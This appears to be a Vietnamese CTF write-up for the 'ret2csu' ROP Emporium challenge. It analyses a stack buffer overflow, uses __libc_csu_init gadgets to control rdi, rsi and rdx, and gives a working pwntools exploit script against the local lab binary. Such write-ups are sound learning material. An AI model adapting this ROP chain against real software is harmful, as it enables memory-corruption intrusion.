**1. Tìm lỗi**

Chạy thử chuownng trình ta có:



Ta thấy chương trình cho phép nhập vào 1 chuỗi rồi kết thúc ngay sau đó

Dùng lệnh checksec kiểm tra:



Ta thấy canary đang ở trạng thái disabled nên có thể khai thác qua lỗi bof

Dùng lệnh file kiểm tra



Ta thấy là file elf 64bit nên mở bằng ida64 ta được hàm main như sau:



Hàm pwnme:



Ở hàm pwnme này ta thấy khoảng cách từ biến đến ret là 0x20 + 0x8 = 40 nhưng chương trình cho phép nhập 0x200 -> Có lỗi bof

Nó còn loại bỏ các địa chỉ đã nhận cho các lệnh đặt, printf và memset.

Hàm usefulFunction:



Hàm ret2win:

```
   0x00007ffff7dc49d3 <+0>:     push   rbp
   0x00007ffff7dc49d4 <+1>:     mov    rbp,rsp
   0x00007ffff7dc49d7 <+4>:     sub    rsp,0x30
   0x00007ffff7dc49db <+8>:     mov    QWORD PTR [rbp-0x18],rdi
   0x00007ffff7dc49df <+12>:    mov    QWORD PTR [rbp-0x20],rsi
   0x00007ffff7dc49e3 <+16>:    mov    QWORD PTR [rbp-0x28],rdx
   0x00007ffff7dc49e7 <+20>:    mov    QWORD PTR [rbp-0x10],0x0
   0x00007ffff7dc49ef <+28>:    movabs rax,0xdeadbeefdeadbeef
   0x00007ffff7dc49f9 <+38>:    cmp    QWORD PTR [rbp-0x18],rax
   0x00007ffff7dc49fd <+42>:    jne    0x7ffff7dc4ada <ret2win+263>
   0x00007ffff7dc4a03 <+48>:    movabs rax,0xcafebabecafebabe
   0x00007ffff7dc4a0d <+58>:    cmp    QWORD PTR [rbp-0x20],rax
   0x00007ffff7dc4a11 <+62>:    jne    0x7ffff7dc4ada <ret2win+263>
   0x00007ffff7dc4a17 <+68>:    movabs rax,0xd00df00dd00df00d
   0x00007ffff7dc4a21 <+78>:    cmp    QWORD PTR [rbp-0x28],rax
   0x00007ffff7dc4a25 <+82>:    jne    0x7ffff7dc4ada <ret2win+263>
   0x00007ffff7dc4a2b <+88>:    lea    rsi,[rip+0x2ee]        # 0x7ffff7dc4d20
   0x00007ffff7dc4a32 <+95>:    lea    rdi,[rip+0x2e9]        # 0x7ffff7dc4d22
   0x00007ffff7dc4a39 <+102>:   call   0x7ffff7dc4830 <fopen@plt>
   0x00007ffff7dc4a3e <+107>:   mov    QWORD PTR [rbp-0x10],rax
   0x00007ffff7dc4a42 <+111>:   cmp    QWORD PTR [rbp-0x10],0x0
   0x00007ffff7dc4a47 <+116>:   jne    0x7ffff7dc4a5f <ret2win+140>
   0x00007ffff7dc4a49 <+118>:   lea    rdi,[rip+0x2e8]        # 0x7ffff7dc4d38
   0x00007ffff7dc4a50 <+125>:   call   0x7ffff7dc47a0 <puts@plt>
   0x00007ffff7dc4a55 <+130>:   mov    edi,0x1
   0x00007ffff7dc4a5a <+135>:   call   0x7ffff7dc4840 <exit@plt>
   0x00007ffff7dc4a5f <+140>:   mov    edi,0x21
   0x00007ffff7dc4a64 <+145>:   call   0x7ffff7dc4810 <malloc@plt>
   0x00007ffff7dc4a69 <+150>:   mov    QWORD PTR [rip+0x201610],rax        # 0x7ffff7fc6080 <g_buf>
   0x00007ffff7dc4a70 <+157>:   mov    rax,QWORD PTR [rip+0x201609]        # 0x7ffff7fc6080 <g_buf>
   0x00007ffff7dc4a77 <+164>:   test   rax,rax
   0x00007ffff7dc4a7a <+167>:   jne    0x7ffff7dc4a92 <ret2win+191>
   0x00007ffff7dc4a7c <+169>:   lea    rdi,[rip+0x2d7]        # 0x7ffff7dc4d5a
   0x00007ffff7dc4a83 <+176>:   call   0x7ffff7dc47a0 <puts@plt>
   0x00007ffff7dc4a88 <+181>:   mov    edi,0x1
   0x00007ffff7dc4a8d <+186>:   call   0x7ffff7dc4840 <exit@plt>
   0x00007ffff7dc4a92 <+191>:   mov    rax,QWORD PTR [rip+0x2015e7]        # 0x7ffff7fc6080 <g_buf>
   0x00007ffff7dc4a99 <+198>:   mov    rdx,QWORD PTR [rbp-0x10]
   0x00007ffff7dc4a9d <+202>:   mov    esi,0x21
   0x00007ffff7dc4aa2 <+207>:   mov    rdi,rax
   0x00007ffff7dc4aa5 <+210>:   call   0x7ffff7dc4800 <fgets@plt>
   0x00007ffff7dc4aaa <+215>:   mov    QWORD PTR [rip+0x2015cf],rax        # 0x7ffff7fc6080 <g_buf>
   0x00007ffff7dc4ab1 <+222>:   mov    rax,QWORD PTR [rbp-0x10]
   0x00007ffff7dc4ab5 <+226>:   mov    rdi,rax
   0x00007ffff7dc4ab8 <+229>:   call   0x7ffff7dc47b0 <fclose@plt>
   0x00007ffff7dc4abd <+234>:   mov    QWORD PTR [rbp-0x10],0x0
   0x00007ffff7dc4ac5 <+242>:   movabs rax,0xdeadbeefdeadbeef
   0x00007ffff7dc4acf <+252>:   cmp    QWORD PTR [rbp-0x18],rax
   0x00007ffff7dc4ad3 <+256>:   je     0x7ffff7dc4af0 <ret2win+285>
   0x00007ffff7dc4ad5 <+258>:   jmp    0x7ffff7dc4b9d <ret2win+458>
   0x00007ffff7dc4ada <+263>:   lea    rdi,[rip+0x293]        # 0x7ffff7dc4d74
   0x00007ffff7dc4ae1 <+270>:   call   0x7ffff7dc47a0 <puts@plt>
   0x00007ffff7dc4ae6 <+275>:   mov    edi,0x1
   0x00007ffff7dc4aeb <+280>:   call   0x7ffff7dc4840 <exit@plt>
   0x00007ffff7dc4af0 <+285>:   movabs rax,0xcafebabecafebabe
   0x00007ffff7dc4afa <+295>:   cmp    QWORD PTR [rbp-0x20],rax
   0x00007ffff7dc4afe <+299>:   jne    0x7ffff7dc4b9d <ret2win+458>
   0x00007ffff7dc4b04 <+305>:   movabs rax,0xd00df00dd00df00d
   0x00007ffff7dc4b0e <+315>:   cmp    QWORD PTR [rbp-0x28],rax
   0x00007ffff7dc4b12 <+319>:   jne    0x7ffff7dc4b9d <ret2win+458>
   0x00007ffff7dc4b18 <+325>:   lea    rsi,[rip+0x201]        # 0x7ffff7dc4d20
   0x00007ffff7dc4b1f <+332>:   lea    rdi,[rip+0x263]        # 0x7ffff7dc4d89
   0x00007ffff7dc4b26 <+339>:   call   0x7ffff7dc4830 <fopen@plt>
   0x00007ffff7dc4b2b <+344>:   mov    QWORD PTR [rbp-0x10],rax
   0x00007ffff7dc4b2f <+348>:   cmp    QWORD PTR [rbp-0x10],0x0
   0x00007ffff7dc4b34 <+353>:   jne    0x7ffff7dc4b4c <ret2win+377>
   0x00007ffff7dc4b36 <+355>:   lea    rdi,[rip+0x254]        # 0x7ffff7dc4d91
   0x00007ffff7dc4b3d <+362>:   call   0x7ffff7dc47a0 <puts@plt>
   0x00007ffff7dc4b42 <+367>:   mov    edi,0x1
   0x00007ffff7dc4b47 <+372>:   call   0x7ffff7dc4840 <exit@plt>
   0x00007ffff7dc4b4c <+377>:   mov    DWORD PTR [rbp-0x4],0x0
   0x00007ffff7dc4b53 <+384>:   mov    DWORD PTR [rbp-0x4],0x0
   0x00007ffff7dc4b5a <+391>:   jmp    0x7ffff7dc4b95 <ret2win+450>
   0x00007ffff7dc4b5c <+393>:   mov    rax,QWORD PTR [rbp-0x10]
   0x00007ffff7dc4b60 <+397>:   mov    rdi,rax
   0x00007ffff7dc4b63 <+400>:   call   0x7ffff7dc47e0 <fgetc@plt>
   0x00007ffff7dc4b68 <+405>:   mov    esi,eax
   0x00007ffff7dc4b6a <+407>:   mov    rdx,QWORD PTR [rip+0x20150f]        # 0x7ffff7fc6080 <g_buf>
   0x00007ffff7dc4b71 <+414>:   mov    eax,DWORD PTR [rbp-0x4]
   0x00007ffff7dc4b74 <+417>:   cdqe
   0x00007ffff7dc4b76 <+419>:   add    rax,rdx
   0x00007ffff7dc4b79 <+422>:   movzx  ecx,BYTE PTR [rax]
   0x00007ffff7dc4b7c <+425>:   mov    rdx,QWORD PTR [rip+0x2014fd]        # 0x7ffff7fc6080 <g_buf>
   0x00007ffff7dc4b83 <+432>:   mov    eax,DWORD PTR [rbp-0x4]
   0x00007ffff7dc4b86 <+435>:   cdqe
   0x00007ffff7dc4b88 <+437>:   add    rax,rdx
   0x00007ffff7dc4b8b <+440>:   xor    ecx,esi
   0x00007ffff7dc4b8d <+442>:   mov    edx,ecx
   0x00007ffff7dc4b8f <+444>:   mov    BYTE PTR [rax],dl
   0x00007ffff7dc4b91 <+446>:   add    DWORD PTR [rbp-0x4],0x1
   0x00007ffff7dc4b95 <+450>:   cmp    DWORD PTR [rbp-0x4],0x1f
   0x00007ffff7dc4b99 <+454>:   jle    0x7ffff7dc4b5c <ret2win+393>
   0x00007ffff7dc4b9b <+456>:   jmp    0x7ffff7dc4bb3 <ret2win+480>
   0x00007ffff7dc4b9d <+458>:   lea    rdi,[rip+0x1d0]        # 0x7ffff7dc4d74
   0x00007ffff7dc4ba4 <+465>:   call   0x7ffff7dc47a0 <puts@plt>
   0x00007ffff7dc4ba9 <+470>:   mov    edi,0x1
   0x00007ffff7dc4bae <+475>:   call   0x7ffff7dc4840 <exit@plt>
   0x00007ffff7dc4bb3 <+480>:   movabs rax,0xdeadbeefdeadbeef
   0x00007ffff7dc4bbd <+490>:   cmp    QWORD PTR [rbp-0x18],rax
   0x00007ffff7dc4bc1 <+494>:   jne    0x7ffff7dc4c64 <ret2win+657>
   0x00007ffff7dc4bc7 <+500>:   movabs rax,0xcafebabecafebabe
   0x00007ffff7dc4bd1 <+510>:   cmp    QWORD PTR [rbp-0x20],rax
   0x00007ffff7dc4bd5 <+514>:   jne    0x7ffff7dc4c64 <ret2win+657>
   0x00007ffff7dc4bdb <+520>:   movabs rax,0xd00df00dd00df00d
   0x00007ffff7dc4be5 <+530>:   cmp    QWORD PTR [rbp-0x28],rax
   0x00007ffff7dc4be9 <+534>:   jne    0x7ffff7dc4c64 <ret2win+657>
   0x00007ffff7dc4beb <+536>:   mov    rax,QWORD PTR [rip+0x20148e]        # 0x7ffff7fc6080 <g_buf>
   0x00007ffff7dc4bf2 <+543>:   add    rax,0x4
   0x00007ffff7dc4bf6 <+547>:   mov    rax,QWORD PTR [rax]
   0x00007ffff7dc4bf9 <+550>:   mov    rdx,QWORD PTR [rip+0x201480]        # 0x7ffff7fc6080 <g_buf>
   0x00007ffff7dc4c00 <+557>:   add    rdx,0x4
   0x00007ffff7dc4c04 <+561>:   xor    rax,QWORD PTR [rbp-0x18]
   0x00007ffff7dc4c08 <+565>:   mov    QWORD PTR [rdx],rax
   0x00007ffff7dc4c0b <+568>:   mov    rax,QWORD PTR [rip+0x20146e]        # 0x7ffff7fc6080 <g_buf>
   0x00007ffff7dc4c12 <+575>:   add    rax,0xc
   0x00007ffff7dc4c16 <+579>:   mov    rax,QWORD PTR [rax]
   0x00007ffff7dc4c19 <+582>:   mov    rdx,QWORD PTR [rip+0x201460]        # 0x7ffff7fc6080 <g_buf>
   0x00007ffff7dc4c20 <+589>:   add    rdx,0xc
   0x00007ffff7dc4c24 <+593>:   xor    rax,QWORD PTR [rbp-0x20]
   0x00007ffff7dc4c28 <+597>:   mov    QWORD PTR [rdx],rax
   0x00007ffff7dc4c2b <+600>:   mov    rax,QWORD PTR [rip+0x20144e]        # 0x7ffff7fc6080 <g_buf>
   0x00007ffff7dc4c32 <+607>:   add    rax,0x14
   0x00007ffff7dc4c36 <+611>:   mov    rax,QWORD PTR [rax]
   0x00007ffff7dc4c39 <+614>:   mov    rdx,QWORD PTR [rip+0x201440]        # 0x7ffff7fc6080 <g_buf>
   0x00007ffff7dc4c40 <+621>:   add    rdx,0x14
   0x00007ffff7dc4c44 <+625>:   xor    rax,QWORD PTR [rbp-0x28]
   0x00007ffff7dc4c48 <+629>:   mov    QWORD PTR [rdx],rax
   0x00007ffff7dc4c4b <+632>:   mov    rax,QWORD PTR [rip+0x20142e]        # 0x7ffff7fc6080 <g_buf>
   0x00007ffff7dc4c52 <+639>:   mov    rdi,rax
   0x00007ffff7dc4c55 <+642>:   call   0x7ffff7dc47a0 <puts@plt>
   0x00007ffff7dc4c5a <+647>:   mov    edi,0x0
   0x00007ffff7dc4c5f <+652>:   call   0x7ffff7dc4840 <exit@plt>
   0x00007ffff7dc4c64 <+657>:   lea    rdi,[rip+0x109]        # 0x7ffff7dc4d74
   0x00007ffff7dc4c6b <+664>:   call   0x7ffff7dc47a0 <puts@plt>
   0x00007ffff7dc4c70 <+669>:   mov    edi,0x1
   0x00007ffff7dc4c75 <+674>:   call   0x7ffff7dc4840 <exit@plt>
```

Ở hàm re2win này thì đọc 2 file encrypted_flag.dat và key.dat nhưng nó phải thỏa mãn các thanh ghi rdi, rsi, rdx có giá trị tương ứng 0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d. Nhưng khi kiểm tra xem có câu lệnh pop rdx không thì lại không có

**2. Ý tưởng**

Dùng pd __libc_csu_init để kiếm một số lệnh có thể dùng được

 - gadget1

 - gadget2

Đến đây có ý tưởng đưa 0xdeadcafebabebeef vào r15 bằng gadget1 và gọi gadget2 sẽ có 0xdeadcafebabebeef nằm ở rdx và chuyển hướng câu lệnh call đến ret2win nhưng vấn đề đã không tìm được con trỏ trỏ tới hàm ret2win

 - gadget2

Ngay sau hàm call có lệnh add, cmp và jne và tiếp đó là gadget1 nên cần kiếm 1 hàm để giữ lại và không thay đổi giá trị nào khi call và làm cho rbp và rbx bằng để để không thực hiện lệnh jne

 - gadget2

Đã tìm được hàm _fini không thay đổi giá trị gì. Về 2 thanh ghi rbp và rbx có thể kiểm soát được ở gadget1

Ta có được thứ tự payload:
 - 40 byte để tràn đến ret
 - gadget1: pop rbx, rbp, r12, r13, r14, r15, ret
 - giá trị tương ứng các thanh ghhi đã pop trên: 0, 1, hàm _fini, 0, 0xcafebabecafebabe, 0xdeadcafebabebeef 
 - gadget2: mov    rdx,r15 ; mov    rsi,r14 ; mov    edi,r13d ; call   QWORD PTR [r12+rbx*8]
   lúc này đã trở lại các câu lệnh ở gadget1
 - giá trị các thanh ghi: lúc này thì giá trị nào cũng được
 - Địa chỉ ret2win

**3. Viết script**

```
from pwn import *

elf = ELF('ret2csu')
r = process("./ret2csu")

gadget1 = 0x000000000040069a
gadget2 = 0x0000000000400680
fini = 0x600e48
ret2win = 0x000000000040062a
pop_rdi = 0x00000000004006a3

payload = b'a'*40
payload += p64(gadget1)
payload += p64(0) + p64(1) + p64(fini) + p64(0) + p64(0xcafebabecafebabe) + p64(0xd00df00dd00df00d)
payload += p64(gadget2)
payload += p64(0)*7
payload += p64(pop_rdi)
payload += p64(0xdeadbeefdeadbeef)
payload += p64(ret2win)

input()
r.sendlineafter('> ', payload)
r.interactive()
```

**4. Lấy flag**


